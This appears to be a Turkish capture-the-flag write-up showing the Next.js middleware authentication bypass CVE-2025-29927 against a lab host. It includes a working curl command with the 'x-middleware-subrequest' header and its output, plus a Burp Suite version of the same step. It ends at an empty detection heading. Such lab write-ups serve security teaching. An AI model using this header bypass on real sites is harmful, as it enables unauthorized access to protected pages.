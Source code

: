 ```console
C:\Users\bilal> curl -I http://10.10.72.67:3000/protected
HTTP/1.1 307 Temporary Redirect
location: /
Date: Thu, 27 Mar 2025 17:21:34 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

İsteği yaptığımızda herhangi bir yanıt dönmüyor ve header'ları kontrol ettiğimizde bizi kök dizine yönlendirmeye çalıştığını görüyoruz.

Şimdi de `x-middleware-subrequest` header'ını ekleyerek isteğimizi gönderelim ve dönen cevabı kontrol edelim.

```console
C:\Users\bilal>curl -H "x-middleware-subrequest: middleware" http://10.10.72.67:3000/protected
<!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/ff587241ed4bf596.css" crossorigin="" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-9fe8293484f0fd5d.js" crossorigin=""/><script src="/_next/static/chunks/fd9d1056-ffbd49fae2ee76ea.js" async="" crossorigin=""></script><script src="/_next/static/chunks/472-22e55b21ed910619.js" async="" crossorigin=""></script><script src="/_next/static/chunks/main-app-a9a33ea6f7c72b4f.js" async="" crossorigin=""></script><title>Vulnerable Next.js App - CVE-2025-29927</title><meta name="description" content="Demonstration of Next.js middleware vulnerability CVE-2025-29927"/><script src="/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js" crossorigin="" noModule=""></script></head><body class="bg-thm text-slate-200"><main class="container mx-auto p-10"><header class="mb-5"><h1 class="text-4xl">CVE-2025-29927</h1><nav class="mt-2"><ul class="flex gap-2"><li><a href="/" class="app_link__ouYRV !text-green">Home</a></li><li><a href="/protected" class="app_link__ouYRV">Protected Page</a></li></ul></nav></header><section class="flex flex-col items-center py-10"><p class="flag text-5xl text-green">THM{...}</p></section></main><script src="/_next/static/chunks/webpack-9fe8293484f0fd5d.js" crossorigin="" async=""></script> <SNIP>...</SNIP>
```

Herhangi bir yetkilendirme mekanizmasına takılmadan olduğunu gibi /protected sayfasının içeriğini okuyabildik.

<br>

Şimdi de BurpSuite kullanarak benzer işlemi gerçekleştirelim.

![Burp Request](burp_1.png)

Intercept'i açarak web sitesini ziyaret ediyoruz. Daha sonra Request kısmına `x-middleware-subrequest` başlığını ekliyoruz. Ve istek talebini Forward'lıyoruz.

![Burp Header](burp_2-header.png)

Ve görüldüğü gibi `/protected` sayfasını görüntüleyebiliyoruz.

![Flag](flag.png)


## **Tespit**
